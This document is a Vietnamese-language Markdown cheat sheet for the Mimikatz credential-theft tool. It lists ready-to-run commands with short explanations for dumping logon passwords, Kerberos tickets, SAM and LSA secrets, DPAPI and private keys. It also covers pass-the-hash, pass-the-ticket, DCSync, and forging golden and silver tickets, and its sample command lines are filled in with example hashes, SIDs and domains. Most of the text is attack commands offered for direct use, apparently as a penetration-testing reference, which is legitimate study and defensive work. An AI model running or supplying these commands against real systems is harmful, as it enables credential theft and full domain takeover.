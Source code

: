 ## Mimikatz

__#general__

`privilege::debug`: để truy cập thông tin nhạy cảm từ bộ nhớ hệ thống.
`log`: bắt đầu ghi log vào file mặc định (mimikatz.log)
`log customlogfilename.log`: khi log vào file cụ thể

__#sekurlsa__

`sekurlsa::logonpasswords`: trích xuất thông tin đăng nhập của các tài khoản đang đăng nhập trên hệ thống.
`sekurlsa::logonPasswords full`: chi tiết hơn
`sekurlsa::tickets /export`: xuất tất cả các Kerberos tickets từ bộ nhớ ra file `.kirbi`
`sekurlsa::pth`: Path-the-hash => Sử dụng NTLM hash của 1 tài khoản để xác thực mà không cần mật khẩu.
```
sekurlsa::pth /user:Administrateur /domain:winxp /ntlm:f193d757b4d487ab7e5a3743f038f713 /run:cmd
```

__#kerberos__

`kerberos::list /export`: liệt kê các kerberos ticket hiện tại và xuất chúng ra file `.kirbi`.
`kerberos::ptt c:\chocolate.kirbi`: Tải một vé Kerberos từ file chocolate.kirbi vào bộ nhớ để sử dụng.
`kerberos::golden`: Tạo golden ticket giả mạo 
```
kerberos::golden /admin:administrateur /domain:chocolate.local /sid:S-1-5-21-130452501-2365100805-3685010670 /krbtgt:310b643c5316c8c3c70a10cfb17e2e31 /ticket:chocolate.kirbi
```

__#crypto__

`crypto::capi`: Kiểm tra các key quản lý bởi CryptoAPI.
`crypto::cng`: Kiểm tra các key được quản lý bởi Crypto Next Generation (CNG).
`crypto::certificates /export`: xuất chứng chỉ từ kho lưu trữ người dùng.
`crypto::certificates /export /systemstore:CERT_SYSTEM_STORE_LOCAL_MACHINE`: Xuất chứng chỉ từ kho lưu trữ của máy cục bộ.
`crypto::keys /export`: Xuất các private keys được quản lý bởi CryptoAPI.
`crypto::keys /machine /export`: Xuất các private keys thuộc về máy cục bộ.

__#vault & lsadump__

`vault::cred`: trích xuất thông tin đăng nhập từ Window Vault
`vault::list`: liệt kê các vault hiện tại trên máy
`token::elevate`: Tăng cấp quyền bằng cách sử dụng token bảo mật cao hơn.
`lsadump::sam`: Trích xuất thông tin tài khoản cục bộ từ SAM (Security Account Manager).
`lsadump::secrets`: Trích xuất secret keys từ LSA Secrets.
`lsadump::cache`: Trích xuất thông tin xác thực Kerberos được lưu trong bộ nhớ cache.
`lsadump::dcsync`: Mô phỏng hành vi của một Domain Controller để trích xuất hash của tài khoản domain (ví dụ: tài khoản krbtgt).

__#pth (Pass-the-Hash)__

`sekurlsa::pth`: Thực hiện xác thực mà không cần mật khẩu, chỉ dùng NTLM hash hoặc AES keys.

__#ekeys__

`sekurlsa::ekeys`: Liệt kê các encryption keys từ bộ nhớ của hệ thống.

__#dpapi__

`sekurlsa::dpapi`: Trích xuất các DPAPI keys (Data Protection API), cần thiết để giải mã dữ liệu được bảo vệ trên Windows.

__#minidump__

`sekurlsa::minidump lsass.dmp`: Tải file dump của tiến trình LSASS để phân tích ngoại tuyến.

__#ptt__

`kerberos::ptt Administrateur@krbtgt-CHOCOLATE.LOCAL.kirbi`: Tải 1 vé kergeros cụ thế vào bộ nhớ.

__#golden/silver__
`kerberos::golden`

Tạo Golden Ticket để có quyền truy cập domain.
Tùy chọn bổ sung:
- /id: Xác định RID (Relative ID).
- /groups: Gán nhóm cho vé.

__kerberos::silver__

Tạo Silver Ticket, chỉ có hiệu lực với một dịch vụ cụ thể.

__#tgt__

`kerberos::tgt`: Trích xuất Ticket Granting Ticket (TGT) từ bộ nhớ.

__#purge__

`kerberos::purge`: Xóa tất cả vé Kerberos khỏi bộ nhớ.